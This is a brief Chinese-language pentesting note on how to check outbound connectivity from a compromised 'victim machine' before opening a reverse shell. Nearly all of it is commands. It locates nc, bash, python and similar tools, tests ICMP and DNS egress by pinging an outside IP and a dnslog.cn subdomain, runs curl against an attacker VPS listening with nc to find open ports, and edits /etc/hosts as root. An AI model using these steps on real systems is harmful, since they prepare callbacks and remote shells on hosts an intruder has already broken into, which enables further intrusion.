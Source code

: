 ### 场景
拿到一个命令执行的口子后，想要反弹shell，需要先判断目标是否出网

### 解决
1、判断目标存在哪些反弹shell的命令
```
受害机上执行：whereis bash nc exec telnet python php perl ruby java go gcc g++
```
2、判断目标是否向外通icmp流量
```
方法1：
受害机上执行：ping -c 1 202.98.0.68>icmp.txt
受害机上执行：ls -alh
受害机上执行：cat icmp.txt

方法2：
VPS上执行：tcpdump -i eth0 -n -v icmp|grep -i "length 93"
受害机上执行：ping -s 65 -c 1 xx.xx.xx.xx
```
3、判断目标是否向外通dns流量
```
方法1：
受害机上执行：ping -c 1 www.baidu.com>dns.txt
受害机上执行：ls -alh
受害机上执行：cat dns.txt

方法2：
反连平台dnslog.cn上生成一个子域名
受害机上执行：ping xx.dnslog.cn
查看反连平台

经测试，想要修改hosts，使用sudo是不行的：
sudo echo "127.0.0.2 www.baidu.com" >> /etc/hosts
只能是在root用户下执行：
echo "127.0.0.2 www.baidu.com" >> /etc/hosts
```
3、判断目标向外通哪些端口
```
VPS上执行：nc -n -v -lp 3636
受害机上执行：curl http://xx.xx.xx.xx:3636
```
